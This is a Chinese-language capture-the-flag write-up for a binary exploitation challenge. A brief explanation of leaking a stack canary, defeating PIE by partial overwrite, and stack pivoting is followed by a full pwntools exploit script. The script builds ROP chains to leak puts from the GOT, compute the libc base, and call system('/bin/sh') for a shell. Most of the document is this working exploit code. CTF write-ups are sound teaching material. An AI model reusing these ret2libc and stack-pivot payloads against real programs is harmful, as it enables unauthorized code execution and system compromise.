


看着简单但是其实还是比较复杂的栈迁移。不过用法都比较常见。但是难点就是用到的技巧比较多。



可以看到主函数里一个无限循环，输入类型是%hhd，如果输入非数字，scanf会返回EOF提前结束循环。

所以第一个输入无法写入payload但是可以来泄露。

很明显这题开了canary。所以精准覆盖canary的\x00字节就行能泄露出canary顺带还赠送了栈地址。

后面是不是想跳转然后泄露got表，但是



有pie。

又但是，程序很小，可以通过部分覆盖去重启函数。之后就可以再次利用循环函数去泄露返回地址里面的地址，然后得到程序基址。

然后就可以正常去泄露got表然后利用libc基地址去调取system函数。

```
from pwn import *
 
context.arch = 'amd64'
r = process('./11')
libc = ELF('./libc-2.23.so')
a = 1
b = 0
while a:
    r.sendline(b'127')
    b = b+1
    if b==216:
        r.sendline(b'121')
        r.send(b'a')
        break

r.recvuntil(b'y')
canary = u64(r.recv(7).rjust(8,b'\x00'))
print(hex(canary))
start = u64(r.recv(6).ljust(8,b'\x00'))
print(hex(start))
buf = start - 0xf0
#
payload = b'a'*0xd8 + p64(canary)+ p64(start) + p8(0x8f)
r.send(payload)
a = 1
b = 0
while a:
    r.sendline(b'127')
    b = b+1
    if b==231:
        r.sendline(b'121')
        break
r.recvuntil(b'y')
main = u64(r.recv(6).ljust(8,b'\x00')) -24
base = main - 0x128f
print(hex(base))
rdi = base +0x130b
puts_got = 0x3fa8 + base
puts_plt = base + 0x1030
read_got = 0x3fd0 + base

payload1 = b'a'*8 + p64(rdi)+ p64(puts_got)+ p64(puts_plt)+p64(main)+b'a'*0xb0 + p64(canary)+ p64(buf-8) + p64(base + 0x124a)
r.send(payload1)
puts_addr = u64(r.recv(6).ljust(8,b'\x00'))
print(hex(puts_addr))

libc_base = puts_addr - libc.sym['puts']
print(hex(libc_base)) 

system = libc_base + libc.sym['system']
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
r.send(b'a')

payload2 = b'a'*8 + p64(rdi)+ p64(bin_sh)+ p64(system)+b'a'*0xb8 + p64(canary)+ p64(buf-8-0xd0) + p64(base + 0x124a)
r.send(payload2)

r.interactive()
```

